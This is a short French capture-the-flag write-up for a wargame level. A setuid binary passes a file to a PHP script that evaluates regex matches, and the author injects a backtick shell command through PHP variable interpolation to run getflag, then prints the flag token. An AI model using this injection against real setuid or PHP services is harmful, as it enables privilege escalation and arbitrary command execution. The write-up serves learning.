 # Level 06

Quand on se connecte avec l'utilisateur `level06` on trouve 2 fichier dans son home:

```shell
 ls -la
total 24
[...]
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

Le binaire `level06` après une décompilation et une examination du code, il ne fait rien d'autre qu'appeler `level06.php` en prenant comme paramètre un nom de fichier à executer dans le php.

`Level06.php` execute des regex sur le contenu du fichier passer en argument, après de nombreux tests que l'on peux passer des variables php dans le fichier comme `$z` et sera remplacer avant l'execution de la fonction `y()`

```shell
~ echo '[x $z]' > /tmp/test
~ chmod 777 /tmp/test
~ ./level06 /tmp/test coucou
coucou
```

Ici `$z` est remplacé par coucou, nous avons donc essayer de faire passer une commande shell à la place de la variable `$z`, et nous remarquons que ça fonctionne il nous reste plus qu'à faire pareil avec la commande `getflag`

```shell
~ echo '[x ${`/bin/getflag`}]' > /tmp/test
~ chmod 777 /tmp/test
~ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```


